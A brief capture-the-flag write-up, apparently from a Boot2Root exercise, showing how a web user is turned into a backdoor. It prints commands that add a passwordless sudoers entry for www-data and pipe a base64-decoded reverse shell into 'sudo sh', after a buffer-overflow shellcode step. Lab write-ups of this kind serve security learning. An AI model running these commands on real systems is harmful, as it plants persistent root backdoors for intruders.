

# Boot2Root - Backdoor

Starting from `Step 8 - Piscine a débordement`

## Step 8 - sudoers

We use the `exploit_me` binary buffer overflow to launch the shellcode
found at `scripts/shellcode.py`. Which gives us enough rights to launch these two commands:
```
echo "www-data ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers.d/afile
chmod 0440 /etc/sudoers.d/afile
```

Now, `www-data`, the user of the webserver is a sudoer, which is a considerable backdoor.
We now have to launch a reverse shell with `sudo` thanks to the `shell.php`:

```
printf "<reverse shell en base64>" | base64 -d | sudo sh
```



And we are root !
